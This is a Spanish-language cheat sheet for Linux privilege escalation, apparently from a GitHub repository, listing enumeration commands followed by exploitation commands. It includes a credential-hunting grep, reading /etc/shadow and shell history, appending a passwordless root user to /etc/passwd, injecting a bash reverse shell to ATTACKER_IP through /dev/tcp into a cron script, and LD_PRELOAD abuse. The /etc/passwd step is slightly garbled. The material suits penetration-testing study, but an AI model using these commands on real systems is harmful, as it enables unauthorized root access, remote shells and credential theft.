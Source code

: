 # Enumeration: Linux privilege escalation

## 🔍 Sección 1: Enumeración

### 1️⃣ Información del sistema

```bash
uname -a                   # Versión del kernel
cat /etc/os-release        # Información de la distribución
cat /etc/issue							
arch                       # Arquitectura del sistema
sudo -V
```

### 2️⃣ Usuarios y grupos

```bash
whoami                     # Usuario actual
id                          # Grupos del usuario actual
who -a                      # Usuarios conectados
cat /etc/passwd            # Lista de usuarios
cat /etc/shadow            # Hashes de contraseñas (requiere root)
sudo -l                    # Comandos sudo disponibles
```

### 3️⃣ Permisos y archivos sensibles

```bash
find / -perm -4000 2>/dev/null   # Binarios con SUID
find / -perm -2000 2>/dev/null   # Binarios con SGID
find / -type f -writable 2>/dev/null  # Archivos con permisos de escritura
find /home -name '.*history' 2>/dev/null  # Historial de comandos
find / -type f -perm -g=w -group <grupo> 2>/dev/null # Archivos con permiso de escritura por el grupo
find / -type f -writable -user $(whoami) 2>/dev/null # Archivos escribibles por tu usuario actual (sin importar grupo)
find / -writable -group <grupo> 2>/dev/null # directorios (para escribir archivos dentro)
find / -type f -perm -g=w -perm -111 -group <grupo> 2>/dev/null # Buscar archivos ejecutables escribibles por el grupo
find /<directorio> -type d -perm -2 -ls 2>/dev/null
```

### Credenciales

```bash
# opciones:

--include="*.ini"
--include="*.yaml"
--include="*.yml"
--include="*.json"
--include="*.conf"

grep -rniI --include="*.conf" --include="*.ini" --include="*.yaml" --include="*.yml" --include="*.json" "PASSW\|PASSWD\|PASSWORD\|PWD" / 2>/dev/null

find / -exec ls -lad $PWD/* "{}" 2>/dev/null \; | grep -i -I "passw\|pwd"

locate 'passw'
locate 'pwd'
locate '*.php'
```


### 4️⃣ Procesos y tareas en ejecución

```bash
ps aux | grep root           # Procesos ejecutados por root
ps -ef | grep <proceso>      # Información de un proceso específico
lsof -i                     # Conexiones activas
```

### 5️⃣ Servicios y conexiones

```bash
netstat -tulnp               # Puertos abiertos y servicios activos
ss -tulnp                    # Alternativa a netstat
iptables -L                  # Reglas de firewall
systemctl list-units --type=service  # Servicios activos
```

### 6️⃣ Cron jobs y timers

```bash
ls -lah /etc/cron*           # Revisar cron jobs
cat /etc/crontab            # Tareas programadas
systemctl list-timers       # Timers activos
```

### 7️⃣ Variables de entorno

```bash
env                         # Variables de entorno
echo $PATH                  # Directorios en PATH
cat /etc/profile            # Variables globales
```

### 8️⃣ Capacidades de binarios

```bash
getcap -r / 2>/dev/null     # Binarios con capacidades especiales
```

### 9️⃣ Contenedores y Docker

```bash
docker ps -a                # Contenedores en ejecución
cat /etc/group | grep docker # Ver si el usuario está en el grupo docker
```

## 💥 Sección 2: Explotación

### 1️⃣ Explotación de SUDO mal configurado

```bash
sudo -l                     # Ver permisos sudo
sudo su                     # Si NOPASSWD está habilitado
sudo <comando>              # Ejecutar comandos con sudo
```

### 2️⃣ SUID/SGID abuse

```bash
find / -perm -4000 2>/dev/null   # Buscar archivos con SUID
find / -perm -2000 2>/dev/null   # Buscar archivos con SGID
/bin/bash -p                     # Ejecutar bash con privilegios SUID
```

### 3️⃣ Malos permisos en archivos y directorios

```bash
openssl passwd newpass
codedPass
echo 'root::0:0:codedPass:::/bin/bash' >> /etc/passwd  # Crear usuario root
```

### 4️⃣ Tareas cron y servicios inseguros

```bash
echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > /path/to/vulnerable_script.sh
```

### 5️⃣ Variables de entorno peligrosas

```bash
export PATH=/tmp:$PATH       # Modificar PATH
export LD_PRELOAD=/tmp/malicioso.so  # Cargar biblioteca maliciosa
```

### 6️⃣ Explotación de procesos en ejecución

```bash
gdb -p <PID>                # Adjuntar a un proceso
```

### 7️⃣ Explotación de servicios y configuraciones de red

```bash
showmount -e <IP>           # Revisar NFS
```

### 8️⃣ Extracción de credenciales

```bash
cat ~/.bash_history         # Revisar historial de comandos
```

### 9️⃣ Kernel Exploits

```bash
uname -r                    # Revisar versión del kernel
searchsploit <versión>      # Buscar exploits para el kernel
```
